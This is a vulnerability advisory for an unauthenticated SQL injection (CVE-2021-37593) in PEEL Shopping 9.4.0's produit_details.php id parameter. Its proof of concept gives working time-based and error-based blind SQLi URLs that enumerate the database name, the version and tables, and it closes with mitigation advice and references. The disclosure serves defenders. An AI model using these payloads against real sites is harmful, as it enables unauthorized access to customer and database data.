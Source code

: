 **Vulnerability Name:** SQL Injection in "_produit_details.php?id_" parameter

**Date of Discovery:** 10 July 2021 

**Product version:** 9.4.0 . [Download link](https://drive.google.com/file/d/1FM8du7J6DDxE-LwVmH8JI502vvom-DUU/view?usp=sharing)

**Author:** faisalfs10x

**Vulnerability Description:** Public user/guest (unauthenticated) can inject malicious SQL query in order to affect the execution of predefined SQL commands via the "_id_" parameter on the "_/peel-shopping_9_4_0/achat/produit_details.php?id=[SQLi]_" endpoint. Upon successful of SQL injection attack, attacker can read sensitive data from the database or modify database data.

**Vulnerable URL:** _http://localhost/peel-shopping_9_4_0/achat/produit_details.php?id=[SQLi]_

**Proof of Concept:**

**1)** Assumed peel-shopping_9_4_0 out of box installation database name is _peel_. This query will check if _database()_ name like _hex(%peel%)_ - it will delay for 7 seconds before redirect to homepage (http://localhost/peel-shopping_9_4_0/) that indicates TRUE SQL statement which mean the database name like "_peel_".

**url :** http://localhost/peel-shopping_9_4_0/achat/produit_details.php?id=(SELECT+1337+FROM+(SELECT(SLEEP(7-(IF(DATABASE()+LIKE+0x257065656c25,0,5)))))FSXX) 

[PoC enum db name]
![enum_dbname](https://user-images.githubusercontent.com/51811615/125202026-5ac05480-e2a4-11eb-8aa8-0bd79718769f.png)


**2)** Assumed the web is using MariaDB database server - check if db_version like _hex(%MariaDB%)_, it will delay for 5 seconds if TRUE.

**url :** http://localhost/peel-shopping_9_4_0/achat/produit_details.php?id=(SELECT+1337+FROM+(SELECT(SLEEP(5-(IF(VERSION()+LIKE+0x254d61726961444225,0,5)))))FSXX)

[Poc enum MariaDB]
![enum_dbversion(MariaDB)](https://user-images.githubusercontent.com/51811615/125202107-b68add80-e2a4-11eb-8b16-5f03eedcb275.PNG)


**3)** By default, the database have a table name = peel_produits. This query will check if table_name _peel_produits_ is exist, it will delay for 10 seconds if TRUE, else will redirect to homepage instantly.

**url :** http://localhost/peel-shopping_9_4_0/achat/produit_details.php?id=(SELECT+1337+FROM+(SELECT(SLEEP(10-(IF(EXISTS(SELECT+3+FROM+peel.peel_produits),0,5)))))FSXX)

[PoC enum table peel_produits]
![enum_tablename](https://user-images.githubusercontent.com/51811615/125202148-d91cf680-e2a4-11eb-95fe-5dd3c633f285.png)


To produce SQL syntax error, it is possible to intercept the request before it is redirect to homepage using a tool like BurpSuite (repeater).

**Error syntax:** http://localhost/peel-shopping_9_4_0/achat/produit_details.php?id=(SELECT+1337+FROM+(SELdECT(SLEEP(3-(IF(USER()+LIKE+0xGEN_ERROR,0,5)))))ERR)

1. [MariaDB disclosed image]
![sql_error_mariadb](https://user-images.githubusercontent.com/51811615/125202162-e934d600-e2a4-11eb-8a08-9086e37f1706.png)

2. [peel_produits table_name disclosed]
![sql_errorbased2](https://user-images.githubusercontent.com/51811615/125202167-efc34d80-e2a4-11eb-9158-a66b2297eff3.png)

**Dump table name = peel_profil**

![dump_table_peel_profil](https://user-images.githubusercontent.com/51811615/125201991-2b114c80-e2a4-11eb-9c16-3a5197bcb51a.PNG)


**Consequences:** 

- Confidentiality: Since SQL databases generally hold sensitive data, loss of confidentiality is a frequent problem with SQL Injection vulnerabilities.
- Integrity: Just as it may be possible to read sensitive information eg client/customer sensitive data, it is also possible to make changes or even delete this information with a SQL Injection attack.

**Mitigation:** Use of Prepared Statements (with Parameterized Queries). It would be good also to casting integer to ensure only numerical data is inserted in 'id' parameter eg - intval($_GET['id'])

**References for Mitigation Vulnerability:** https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

**References:** 
- https://github.com/advisto/peel-shopping/issues/3
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37593
- https://vuldb.com/?id.179759
- https://vulmon.com/vulnerabilitydetails?qid=CVE-2021-37593
- https://nvd.nist.gov/vuln/detail/CVE-2021-37593
